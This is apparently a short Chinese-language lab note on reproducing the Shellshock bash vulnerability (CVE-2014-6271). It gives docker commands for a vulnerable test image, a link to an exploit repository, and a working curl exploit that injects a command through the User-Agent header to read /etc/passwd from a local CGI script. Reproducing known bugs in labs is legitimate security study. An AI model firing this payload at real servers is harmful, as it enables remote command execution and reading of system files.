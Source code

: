 ### 漏洞环境

来源：http://vulapps.evalbug.com/b_bash_shellshock1_CVE-2014-6271/

```
    docker pull medicean/vulapps:b_bash_shellshock1
    docker run -d -p 80:80 medicean/vulapps:b_bash_shellshock1
```

### 使用和利用

    https://github.com/opsxcq/exploit-CVE-2014-6271

### exploit
    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://127.0.0.1:8080/cgi-bin/poc.cgi
